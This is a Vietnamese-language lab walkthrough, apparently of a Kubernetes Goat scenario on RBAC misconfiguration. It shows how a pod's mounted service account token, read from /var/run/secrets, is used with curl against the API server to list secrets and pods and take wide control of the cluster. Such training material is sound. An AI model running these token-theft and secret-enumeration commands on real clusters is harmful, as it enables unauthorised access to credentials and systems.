 # RBAC Least Privileges Misconfiguration

Chúng ta thường thấy trong thực tế các deverloper hay devops thường cung cấp quyền truy cập cho user nhiều hơn yêu cầu. Điều này làm cho attacker có cơ hội kiểu soát hệ thống nhiều hơn. Trong kịch bản này, tác giả đã cho bạn tận dụng `accountservice` được liên kết với `pod` để truy cập vào `webhookapikey `. Tuy nhiên, bằng cách này `attaker` có thể kiểm soát các `resource` hay `secret` của hệ thống. Cụ thể trong kịch bản này là `vaultapikey`.

# Scenario Solution

```
Việc triển khai này có tài khoản dịch vụ tùy chỉnh được ánh xạ với chính sách / quyền truy cập quá dễ dãi. Chính vì thế attacker có thể lợi dụng để truy cập vào các tài nguyên dịch vụ khác
```


Vì K8s lưu tất cả các secrets, token và thông tin về serviceaccount tại thư mục măc định, di chuyển đến folder đó để tìm kiếm các thông tin hữu ích.

```sh
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth
```

![ls](image1.PNG)

Ta có thể thấy các thông tin cầu thiết để có thể thiết lập giao tiếp với k8s cluster. Thực tế ta không biết được token này có quyền truy cập những gì nên hãy cố gắng thử tất cả các API.

Đầu tiên, kiểm tra các thông tin về clusterL

```sh
printenv
```

![env](image2.PNG)

Set biến môi trường cho các thông tin cần thiết:

- To point to the internal API server hostname

```sh
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

- To set the path to ServiceAccount token

```sh
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

- To read the pods namespace and set that as a variable

```sh
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

- To read the ServiceAccount bearer token

```sh
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

- To point the CACERT path to use while querying in the CURL requests

```sh
export CACERT=${SERVICEACCOUNT}/ca.crt
```

Bây giờ, có thể tương tác với k8s server với các tính năng sau:

- Kiểm tra API server

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![env](image3.PNG)

- Truy vấn secret ở default namespace

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![env](image4.PNG)

- Get tất cả các pod trên namespace chỉ định

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![env](image5.PNG)

Đến đây, bạn có thể tương tác với k8s cluster như một máy master, làm bất kì gì bạn mât như xóa, tạo, edit pods... Tóm lại là như full control.
